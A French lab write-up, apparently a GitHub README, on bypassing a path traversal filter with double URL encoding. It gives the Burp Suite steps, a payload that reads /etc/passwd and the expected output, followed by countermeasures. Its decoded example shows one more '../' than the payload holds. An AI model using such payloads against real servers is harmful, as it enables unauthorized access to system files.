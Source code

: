 
# 🧪 Lab 3 - File Path Traversal: Double Décodage URL (Bypass de Filtrage)

---

## 🔍 Description du Lab

Ce lab démontre une variante avancée de la vulnérabilité **Path Traversal**, où l'application :

- Bloque les séquences classiques de traversée (`../`)
- **Décode l’entrée une seconde fois** (double décodage URL) **avant utilisation**

Cette mauvaise gestion du décodage peut être contournée en injectant une **séquence doublement encodée**.

---

## 🎯 Objectif

Récupérer le contenu du fichier **`/etc/passwd`** malgré le filtrage initial.

---

## 🛠️ Outils nécessaires

- ⚔️ **Burp Suite**
- 🧠 Compréhension de l'encodage URL (et sur-encodage)
- 🖥️ Navigateur avec proxy configuré

---

## 🚦 Étapes d’exploitation

### 1. Intercepter une requête d'image

- Utilise Burp pour intercepter une requête `GET` du type :
```

GET /image?filename=product1.jpg HTTP/1.1

```

### 2. Modifier le paramètre `filename`

- Injecte un **double encodage** comme ci-dessous :
```

..%252f..%252f..%252fetc/passwd

````

- `%25` = encodage de `%`
- `%252f` = devient `%2f` après premier décodage = `/` après le second décodage
- Résultat réel après double décodage :
  ```
  ../../../../etc/passwd
  ```

### 3. Lancer la requête

- Le serveur filtre les séquences classiques, **mais ne détecte pas** l’attaque car elles sont **encodées lors du premier passage**.
- Après double décodage, le serveur accède au fichier ciblé.

### 4. Vérifier la réponse

Tu dois voir :
````

root\:x:0:0\:root:/root:/bin/bash
daemon\:x:1:1\:daemon:/usr/sbin:/usr/sbin/nologin
...

```

✅ Cela confirme que l’exploitation a réussi.

---

## 📸 Screenshot 

Ajoute ici une capture d’écran de Burp Suite montrant la requête modifiée et la réponse.

![Path-Traversal](https://github.com/Kabilala/path-traversal/blob/main/lab4/lab4.png)

---

## 🛡️ Contremesures recommandées

- **Décoder une seule fois** les entrées utilisateur
- **Nettoyer les caractères encodés** avant toute utilisation en tant que chemin de fichier
- Utiliser une **liste blanche stricte** des fichiers accessibles
- Interdire **toute forme de chemin relatif ou absolu** passé par l’utilisateur

---

## 🎓 Concepts clés

| Terme                  | Explication |
|------------------------|-------------|
| `URL Encoding`         | `%2f` = `/` |
| `Double encoding`      | `%252f` = `%2f` après un premier décodage |
| `Bypass technique`     | Utilisation de l'encodage multiple pour contourner les filtres |

---

## 🔗 Références

- [📚 Path Traversal - PortSwigger Academy](https://portswigger.net/web-security/file-path-traversal)
- [🔐 OWASP Directory Traversal Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Path_Traversal_Cheat_Sheet.html)
- [📘 URL Encoding Reference](https://www.w3schools.com/tags/ref_urlencode.asp)

---
